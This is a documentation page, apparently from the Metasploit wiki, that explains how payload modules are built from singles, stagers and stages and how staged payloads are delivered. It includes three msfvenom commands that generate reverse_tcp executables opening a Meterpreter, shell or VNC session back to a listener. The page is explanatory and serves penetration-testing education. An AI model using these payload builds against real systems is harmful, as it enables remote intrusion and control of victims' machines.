 % How Payloads Work
% Metasploit Versions 4,5

Payload modules are stored in `modules/payloads/{singles,stages,stagers}/<platform>`. When the framework starts up, stages are combined with stagers to create a complete payload that you can use in exploits. Then, handlers are paired with payloads so the framework will know how to create sessions with a given communications mechanism.

Payloads are given reference names that indicate all the pieces, like so:
  - Staged payloads: `<platform>/[arch]/<stage>/<stager>`
  - Single payloads: `<platform>/[arch]/<single>`

This results in payloads like `windows/x64/meterpreter/reverse_tcp`. Breaking that down, the platform is `windows`, the architecture is `x64`, the final stage we're delivering is `meterpreter`, and the stager delivering it is `reverse_tcp`.

Note that architecture is optional because in some cases it is either unnecessary or implied. An example is `php/meterpreter/reverse_tcp`. Arch is unneeded for PHP payloads because we're delivering interpreted code rather than native.

### Singles

Single payloads are fire-and-forget. They can create a communications mechanism with Metasploit, but they don't have to. An example of a scenario where you might want a single is when the target has no network access -- a fileformat exploit delivered via USB key is still possible.

### Stagers

Stagers are a small stub designed to create some form of communication and then pass execution to the next stage. Using a stager solves two problems. First, it allows us to use a small payload initially to load up a larger payload with more functionality. Second, it makes it possible to separate the communications mechanism from the final stage so one payload can be used with multiple transports without duplicating code.

### Stages

Since the stager will have taken care of dealing with any size restrictions by allocating a big chunk of memory for us to run in, stages can be arbitrarily large. One advantage of that is the ability to write final-stage payloads in a higher-level language like C.

## Delivering stages

1. The IP address and port you want the payload to connect back to are embedded in the stager. As discussed above, all staged payloads are no more than a small stub that sets up communication and executes the next stage. When you create an executable using a staged payload, you're really just creating the stager. So the following commands would create functionally identical exe files:
```
    msfvenom -f exe LHOST=192.168.1.1 -p windows/meterpreter/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/shell/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/vncinject/reverse_tcp
```
(Note that these are *functionally* identical -- there is a lot of randomization that goes into it so no two executables are exactly the same.)

1. The Ruby side acts as a client using whichever transport mechanism was set up by the stager (e.g.: tcp, http, https).
   * In the case of a shell stage, Metasploit will connect the remote process's stdio to your terminal when you interact with it.
   * In the case of a [[Meterpreter]] stage, Metasploit will begin speaking the Meterpreter wire protocol.


